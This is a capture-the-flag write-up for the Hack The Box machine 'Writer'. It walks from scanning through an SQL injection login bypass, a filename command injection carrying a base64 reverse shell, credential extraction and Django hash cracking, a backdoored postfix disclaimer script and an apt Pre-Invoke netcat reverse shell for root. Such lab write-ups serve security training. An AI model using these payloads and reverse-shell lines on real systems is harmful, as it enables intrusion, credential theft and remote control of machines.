


# Writer

- Target Machine: 10.10.11.101

## Enumeration

### nmap scan

```log
# Nmap 7.92SVN scan initiated Sat Sep 25 15:44:32 2021 as: nmap -sC -sV -oN nmap/initial -v 10.10.11.101
Nmap scan report for 10.10.11.101
Host is up (0.044s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:20:b9:d0:52:1f:4e:10:3a:4a:93:7e:50:bc:b8:7d (RSA)
|   256 10:04:79:7a:29:74:db:28:f9:ff:af:68:df:f1:3f:34 (ECDSA)
|_  256 77:c4:86:9a:9f:33:4f:da:71:20:2c:e1:51:10:7e:8d (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-title: Story Bank | Writer.HTB
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2021-09-25T13:59:21
|_  start_date: N/A
|_clock-skew: 14m21s
| nbstat: NetBIOS name: WRITER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   WRITER<00>           Flags: <unique><active>
|   WRITER<03>           Flags: <unique><active>
|   WRITER<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 25 15:45:01 2021 -- 1 IP address (1 host up) scanned in 28.81 seconds

```

### SMB analysis

We have no anonymous access to the smbservice

```log
smbmap -H 10.10.11.101 --no-banner
                                                                                                    
[+] IP: 10.10.11.101:445        Name: 10.10.11.101              Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        writer2_project                                         NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (writer server (Samba, Ubuntu))
```

### Gobuster scan

```log
gobuster dir -u 10.10.11.101 -w=/usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster/dirscan
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.101
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/25 15:45:22 Starting gobuster in directory enumeration mode
===============================================================
/contact              (Status: 200) [Size: 4905]
/logout               (Status: 302) [Size: 208] [--> http://10.10.11.101/]
/about                (Status: 200) [Size: 3522]                          
/static               (Status: 301) [Size: 313] [--> http://10.10.11.101/static/]
/.                    (Status: 200) [Size: 20660]                                
/dashboard            (Status: 302) [Size: 208] [--> http://10.10.11.101/]       
/server-status        (Status: 403) [Size: 277]                                  
/administrative       (Status: 200) [Size: 1443]                                 
                                                                                 
===============================================================
2021/09/25 15:48:47 Finished
===============================================================
```

### Website analysis

In the about page we can find this email address: admin@writer.ht
We can log into the `/administrativ`e page by simply using the SQL Injection `' OR 1 #`

Once we login, we can access the `/dashboard/stories/add` page where we can create a new blog story. This page lets us upload a page either by local file upload and by URL upload. We can use a combination of these two functions to trigger an RCE and spawn a reverse shell.

We can hijack this form's request using BurpSuite and inject an RCE command through the `filename` field.
The forged evil filename will have the following structure:

```bash
[exyss@exyss HTB]$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.130/1234 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMzAvMTIzNCAwPiYxJwo=

# The evil filename will be
gimmeaccess.jpg;`echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMzAvMTIzNCAwPiYxJwo= | base64 -d | bash`;
```

Once we have forged our payload, we can inject it through BurpSuite



Then, we have to repeat this process again, this time triggering the RCE through the `file://` protocol



Once we access the machine, we can find some MySQL credentials by following the info in the file `/var/www/writer2_project/writerv2`

```bash
www-data@writer:/var/www/writer2_project/writerv2$ cat settings.py 

...
# Database
# https://docs.djangoproject.com/en/1.10/ref/settings/#databases

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'OPTIONS': {
            'read_default_file': '/etc/mysql/my.cnf',
        },
    }
}
...

www-data@writer:/var/www/writer2_project/writerv2$ cat /etc/mysql/my.cnf

...
# Import all .cnf files from configuration directory
!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mariadb.conf.d/

[client]
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8
...
```

We can now access the MySQL database, finding out the hashed password of the user kyle

```bash
www-data@writer:/$ /usr/bin/script -qc /bin/bash /dev/null 
/usr/bin/script -qc /bin/bash /dev/null

www-data@writer:/$ mysql -u djangouser -D dev -p
mysql -u djangouser -D dev -p
Enter password: DjangoSuperPassword

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 67
Server version: 10.3.29-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [dev]> SHOW DATABASES
SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| dev                |
| information_schema |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [dev]> SHOW TABLES;
SHOW TABLES;
+----------------------------+
| Tables_in_dev              |
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
+----------------------------+
10 rows in set (0.000 sec)

MariaDB [dev]> SELECT * FROM auth_user
SELECT * FROM auth_user;
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
| id | password                                                                                 | last_login | is_superuser | username | first_name | last_name | email           | is_staff | is_active | date_joined                |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
|  1 | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= | NULL       |            1 | kyle     |            |           | kyle@writer.htb |        1 |         1 | 2021-05-19 12:41:37.168368 |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
1 row in set (0.001 sec)

MariaDB [dev]> 
```

Searching online for how Django hashed get formatted, I've found [this article](https://lincolnloop.com/blog/crack-django-passwords/). With the help of [this GitHub repo](https://github.com/xros/py_django_crack) I've found (thanks to the author!), I created a python script that could crack the hash (you could also just use Hashcat to crack this hash)

```py
import py_django_crack.jake as jake
from hashlib import sha256

hash = "pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A="

# {algorithm}${iteration times}${salt}${hashed password}
parts = hash.split("$")

it_times = int(parts[1])
salt = parts[2]
hashed_psw = parts[3]

with open("/home/exyss/Desktop/rockyou.txt", "r") as f:
    for line in f:
        psw = line[:-1]

        test_hash = jake.get_base64_hashed(psw, salt, it_times, sha256)
        print(f"[*] Testing with {psw} - Hash: {test_hash}")

        if hashed_psw == test_hash:
            print("--- Found!!! ---")
            break
```

We can now crack Kyle's hash, finding out that his password is marcoantonio. We can reuse this password to SSH into the machine as Kyle, getting the user flag.

```bash
[exyss@exyss scripts]$ python crack_hash.py 
...
[*] Testing with mylife1 - Hash: 8x0kNqB7J5ZQH2hjOAurOyseUoHj8dwzDXpARhIQC4o=
[*] Testing with monkey6 - Hash: WW2jmNoKdePbbs0GotjjMfHHg5hOa7sVbY/z4X2PDC8=
[*] Testing with mocha - Hash: hhU54QsGpQ2ET6HG4yRhPiwCVzAMUUWCbYOpU5pzJr0=
[*] Testing with missing - Hash: vWYG83U+H/BZfvReqwSUOMHiNlpg0Xltix2zvaPZVdg=
[*] Testing with melrose - Hash: EU2GUoB2CWGXTi+QGrQjjMNP6zvXmaezdH0gtaRs8Qk=
[*] Testing with marcoantonio - Hash: bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=
--- Found!!! ---
```

## Lateral movement

Running `id`, we can see that kyle is in the group `filter`. Using `find`, we find out that we can edit the file `/etc/postfix/disclaimer`. Since postfix is on this machine, we can assume that an SMTP service is avaible locally, which gets confirmed from scanning local ports (port 25).

Every time an email is sent to this SMTP service, it will run the `disclaimer` file, checking if the sender email address is in the disclaimer_addresses file. Since we can edit the disclaimer file, we can add a reverse shell in the file, then send an email using a simple python script, triggering the revshell from postfix and giving us access as `john`.

Since the files get reverted after a very short amount of time, we must create the edited versions locally, then donwload then from a python HTTP server hosted on our machine and run them right after that. 

Edited disclaimer file:

```bash
#!/bin/bash
# Localize these.
bash -i >& /dev/tcp/10.10.14.226/4444 0>&1
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail
```

Python script to send the email:

```py
import smtplib

email = "kyle@writer.htb"

message = "Subject: Hello john, gimme access"

try:
    smtp = smtplib.SMTP("127.0.0.1", 25)
    smtp.ehlo()
    smtp.sendmail(email, email, message)
    smtp.quit()
except Exception as e:
    smtp.quit()
```

Commands to trigger the revshell:

```bash

# ON THE TARGET MACHINE
kyle@writer:~$ cd /tmp

kyle@writer:/tmp$ wget http://10.10.14.226:8000/disclaimer && wget http://10.10.14.226:8000/sendmail.py && cp disclaimer /etc/postfix/disclaimer && python3 sendmail.py

# ON OUR MACHINE
[exyss@exyss scripts]$ nc -lnvp 4444
Connection from 10.10.11.101:44212
bash: cannot set terminal process group (4558): Inappropriate ioctl for device
bash: no job control in this shell
john@writer:/var/spool/postfix$
```

## Priviledge escalation

After running linpeas.sh, we find out that we can edit files in the directory `etc/apt/apt.conf.d`. With pspy we also find out that there's a root cronjob running `sudo apt-get update`. We can add a fake package that contains another reverse shell which will get triggered when the cronjob runs (read [this article](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation) for more info)

```
john@writer:~$ cd /etc/apt/apt.conf.d

john@writer:/etc/apt/apt.conf.d$ echo 'apt::Update::Pre-Invoke {“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.226 1234 >/tmp/f”};' > pwn
```